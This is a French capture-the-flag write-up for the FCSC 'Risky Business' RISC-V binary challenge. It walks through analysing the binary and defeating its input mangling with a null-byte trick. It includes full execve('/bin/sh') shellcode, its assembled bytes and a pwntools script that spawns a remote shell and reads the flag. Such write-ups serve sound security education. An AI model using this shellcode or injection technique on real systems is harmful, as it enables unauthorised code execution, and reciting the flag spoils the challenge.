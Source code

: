# Risky Business - PWN - 200

> L'exercice n'est pas très risqué : retrouver simplement le contenu du fichier flag.

```risky-business: ELF 64-bit LSB shared object, UCB RISC-V, version 1 (SYSV)```

Ok nous avons clairement affaire à du RISC-V, une architecture RISC apparue récemment.

Une grande partie de ce challenge était dans le setup de l'environnement de debug, qui a été simplifié par la mise en ligne du Dockerfile.
On pouvait s'en sortir avec un gdb-multiarch en déboguant en remote, avec le flag -g sur QEMU.

Après un coup de checksec, nous remarquons que la protection NX est désactivée, permettant l'exécution de code sur la pile.

```
    Arch:     em_riscv-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

## Analyse du binaire

Bien que cette architecture soit assez exotique, Ghidra supporte RISC-V !
Plongeons sans plus attendre dans les entrailles du binaire.

Après une rapide analyse du pseudocode généré par Ghidra, on peut voir que le binaire va nous demander d'entrer une chaîne de 67 caractères maximum.

Ensuite, notre chaîne va passer dans un algorithme étrange effectuant des modifications sur celle-ci, puis appeler notre chaîne comme une fonction.

Très bien nous n'avons qu'à lui fournir un shellcode RISC-V pour lancer un shell !

## Exploitation du binaire

N'ayant aucune connaissances en assembleur RISC-V, je m'empresse d'aller voir sur shell-storm s'il n'y en a pas déjà un qui existe ...

Bingo ! [celui-ci](http://shell-storm.org/shellcode/files/shellcode-908.php) devrait faire l'affaire.

Sauf que non ... Le programme crash.
En analysant le contenu de notre chaîne, celle-ci semble corrompue (probablement après être passée dans cet algorithme bizarre).

N'ayant pas la foi de reverse cet algorithme pour trouver les badchars à ne pas adopter dans le shellcode, puis créer ce shellcode sans badchars, on va se pencher sur une autre solution !

On remarque que cet algorithme se base sur la taille de notre chaîne pour faire son travail.
Une chaîne se termine par un octet nul (\x00), et la fonction prenant notre entrée est fgets, s'arrêtant seulement pour les retours à la ligne (\x0a) et le caractère de fin de fichier EOF.

De ce fait, nous ne sommes pas obligés d'avoir du code sans octets nul à l'intérieur, ce qui peut nous faire gagner beaucoup de place.

Si nous mettons un octet nul vers le début de la chaîne, alors seulement les octets non nuls qui sont avant seront filtrés, ce qui laissera le reste intact !

[Cet article](https://thomask.sdf.org/blog/2018/08/25/basic-shellcode-in-riscv-linux.html), nous montre le processus de la réalisation d'un shellcode en RISC-V, il présente au début un code minimal pour faire un appel système execve("/bin/sh", NULL, NULL):

```asm
    .global _start
    .text
_start:
    li s1, 0x68732f2f6e69622f   # Load "/bin//sh" backwards into s1
    sd s1, -16(sp)              # Store dword s1 on the stack
    sd zero, -8(sp)             # Store dword zero after to terminate
    addi a0,sp,-16              # a0 = filename = sp + (-16)
    slt a1,zero,-1              # a1 = argv set to 0
    slt a2,zero,-1              # a2 = envp set to 0
    li a7, 221                  # execve = 221
    ecall                       # Do syscall
```

L'idée serait de placer une instruction qui n'altèrerait pas le fonctionnement de notre shellcode, et contenant un nullbyte.

```lui a5, 0``` est un bon candidat !

Ce qui nous donne: 

```asm
_start:
    lui a5, 0
    li s1, 0x68732f2f6e69622f   # Load "/bin//sh" backwards into s1
    sd s1, -16(sp)              # Store dword s1 on the stack
    sd zero, -8(sp)             # Store dword zero after to terminate
    addi a0,sp,-16              # a0 = filename = sp + (-16)
    slt a1,zero,-1              # a1 = argv set to 0
    slt a2,zero,-1              # a2 = envp set to 0
    li a7, 221                  # execve = 221
    ecall                       # Do syscall
```

Nous n'avons plus qu'à assembler notre code et à l'envoyer au serveur !

Le paquet **binutils-riscv64-linux-gnu** nous permet d'avoir les outils pour faire cela.

```
$ riscv64-linux-gnu-gcc execve.s -c
$ riscv64-linux-gnu-ld execve.o -o execve
$ riscv64-linux-gnu-objcopy -O binary --only-section=.text execve execve.text
$ hexdump -C execve.text 

00000000  b7 07 00 00 b7 a4 43 03  9b 84 94 97 93 94 c4 00  |......C.........|
00000010  93 84 74 7b 93 94 c4 00  93 84 b4 34 93 94 d4 00  |..t{.......4....|
00000020  93 84 f4 22 23 38 91 fe  23 3c 01 fe 13 05 01 ff  |..."#8..#<......|
00000030  93 25 f0 ff 13 26 f0 ff  93 08 d0 0d 73 00 00 00  |.%...&......s...|
00000040
```

Notre shellcode final fait 64 octets, et commence par \xb7\x07 suivi de deux nullbytes, seulement ces deux caractères seront donc affectés.

```py
#!/usr/bin/python

from pwn import *

r = remote('challenges1.france-cybersecurity-challenge.fr', 4004)

shellcode = "\xb7\x07\x00\x00\xb7\xa4\x43\x03\x9b\x84\x94\x97\x93\x94\xc4\x00\x93\x84\x74\x7b\x93\x94\xc4\x00\x93\x84\xb4\x34\x93\x94\xd4\x00\x93\x84\xf4\x22\x23\x38\x91\xfe\x23\x3c\x01\xfe\x13\x05\x01\xff\x93\x25\xf0\xff\x13\x26\xf0\xff\x93\x08\xd0\x0d\x73\x00\x00\x00"

r.sendline(shellcode)
r.sendline()
r.interactive()
```

```
[+] Opening connection to challenges1.france-cybersecurity-challenge.fr on port 4004: Done
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag
FCSC{d79704401bf7c58ca46f3711a9a8c8207d0c4ce7d80fd0dc41df6d5e44b3ddaf}
$  
```

Boom, on a un shell interactif et on peut afficher le flag !

FLAG: FCSC{d79704401bf7c58ca46f3711a9a8c8207d0c4ce7d80fd0dc41df6d5e44b3ddaf}